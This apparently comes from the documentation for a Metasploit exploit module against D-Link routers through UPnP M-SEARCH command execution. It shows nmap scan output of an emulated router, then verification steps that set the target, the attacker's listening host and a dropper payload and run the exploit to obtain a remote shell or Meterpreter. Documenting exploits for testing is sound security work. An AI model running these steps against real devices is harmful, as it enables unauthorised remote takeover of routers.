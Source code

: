 ```shell
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
443/tcp   open  https
8181/tcp  open  intermapper
49152/tcp open  unknown
MAC Address: 00:DE:FA:1A:01:00 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.25 seconds
 # nmap -sU 192.168.0.1
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-17 18:34 UTC
Nmap scan report for 192.168.0.1
Host is up (0.0019s latency).
Not shown: 993 closed udp ports (port-unreach)
PORT      STATE         SERVICE
53/udp    open          domain
67/udp    open|filtered dhcps
137/udp   open|filtered netbios-ns
1900/udp  open|filtered upnp
5353/udp  open          zeroconf
5355/udp  open|filtered llmnr
19541/udp open|filtered jcp
MAC Address: 00:DE:FA:1A:01:00 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1054.98 seconds
```
You are now ready to test the module using the emulated router hardware on IP address 192.168.0.1.

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/upnp/dlink_upnp_msearch_exec`
- [x] `set rhosts <ip-target>`
- [x] `set rport 1900`
- [x] `set http_port 80`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Unix Command, 1=Linux Dropper>`
- [x] `exploit`

you should get a `shell` or `Meterpreter`

```shell
msf exploit(linux/upnp/dlink_upnp_msearch_exec) > options

Module options (exploit/linux/upnp/dlink_upnp_msearch_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.0.1      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      1900             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   HTTP_PORT  80               yes       Universal Plug and Play (UPnP) UDP port
   URIPATH                     no        The URI to use for this exploit (default is random)
   URN        urn:device:1     no        Set URN payload
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:
```